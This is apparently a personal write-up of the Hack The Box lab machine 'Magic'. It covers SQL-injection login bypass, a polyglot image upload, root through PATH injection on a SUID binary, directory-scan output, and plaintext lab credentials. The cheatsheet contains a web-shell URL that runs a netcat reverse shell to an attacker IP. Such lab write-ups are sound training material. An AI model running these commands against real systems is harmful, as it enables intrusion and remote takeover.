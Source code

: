 # Magic \[Medium]

## Report

A login page is bypassed using basic SQLi and we have access to a file uploading page. Guessing by the name magic, it checks the magic bytes of the file to check if it is indeed an image, using our polyglot shell from Networked we get a reverse shell.

SQL creds are recovered from app config files and we see port 3306 open. The native mysql was not available, a workaround was to use to mysqldump (found via full pty shell) or port forward via chisel and access at localhost. Get creds for user 'theseus' and edit authorized\_keys for SSH access

A lot of binaries with SUID were set and we actually missed it the first time but checking SUID binaries that belong to the 'users' group (theseus is a part of two groups) shows it again `/bin/sysinfo` Using strace, we see exec calls are performed without full path, perform path injection and become root.

## Cheatsheet

```
image files at images/uploads/[file]
http://magic.htb/images/uploads/black.php.jpeg?cmd=busybox%20nc%2010.10.14.15%209001%20-e%20%2Fbin%2Fsh

how to interact with sql without the clinet [chisel]

full pty shell needed otherwise how find mysqldump
mysqldump -u theseus -p Magic

add to authoirzed_keys and use ssh [was blocked before via password]

find / -group users  -print 2>/dev/null
theseus@magic:~$ ls -la /bin/sysinfo
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo

strace -f [bin] [follows forks too, see the exec calls]
ltrace [bin] also works lowk
```

## Loot

### Creds

```
theseus:iamkingtheseus [db.php5]
admin:Th3s3usW4sK1ng [SQL]
```

### Proof



### Enum

```
80
no vhost

images
assets
server-status 403

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.htaccess.html          [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 149ms]
.hta.txt                [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.hta.php                [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.htaccess.txt           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.hta.html               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 150ms]
.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 151ms]
.htpasswd.html          [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 152ms]
.htpasswd.txt           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 152ms]
.sh_history             [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 156ms]
.sh_history.php         [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 152ms]
.sh_history.txt         [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 152ms]
.sh_history.html        [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 152ms]
.html                   [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1781ms]
.php                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 3980ms]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 150ms]
images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 154ms]
index.php               [Status: 200, Size: 4053, Words: 491, Lines: 60, Duration: 153ms]
index.php               [Status: 200, Size: 4052, Words: 491, Lines: 60, Duration: 152ms]
login.php               [Status: 200, Size: 4221, Words: 1179, Lines: 118, Duration: 151ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 153ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 152ms]
upload.php              [Status: 302, Size: 2957, Words: 814, Lines: 85, Duration: 159ms]

tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
```
